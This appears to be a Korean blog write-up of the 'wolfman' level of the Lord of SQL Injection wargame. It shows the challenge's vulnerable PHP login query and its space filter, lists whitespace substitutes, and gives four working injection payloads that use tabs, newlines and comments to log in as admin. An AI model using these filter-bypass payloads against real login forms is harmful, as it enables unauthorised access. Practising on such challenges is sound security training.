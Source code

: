 ```yaml
---
layout: post
title: ! "[LOS] wolfman"
categories: [LOS]
excerpt: " "
comments: true
share: true
tags:
  - LOS
  - Web-hacking
  - wolfman
  - write-up
---
```

![]({{ site.baseurl }}/assets/posts/los/wolfman.png)

`query: select id from prob_wolfman where id='guest' and pw=''`

```php
<?php 

  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```
공백 필터링이 있는 문제다.
저번처럼 id는 guest로 고정되어있고 id는 admin이 되어야 문제가 풀린다.

공백이 필터링 되어있을 때 대신할 수 있는 것은
```
1. TAB :  %09
2. \n : %0a
3. \r : %0d
4. 주석 : /**/
5. 괄호 : ()
6. +
```

등등이 있는데
이 문제에선 괄호가 안먹힌다.
그래서 TAB,\n,\r,주석의 경우를 다 테스트 해봤다.

```
TAB : ?pw=%27%09or%09id=%27admin
\n : ?pw=%27%0aor%0aid=%27admin
\r : ?pw=%27%0dor%0did=%27admin
주석 : ?pw=%27/**/or/**/id=%27admin
```

다양한 시도를 해서 푼 화면이다.
![]({{ site.baseurl }}/assets/posts/los/wolfman_clear1.png)
![]({{ site.baseurl }}/assets/posts/los/wolfman_clear2.png)


울프맨 클리어!
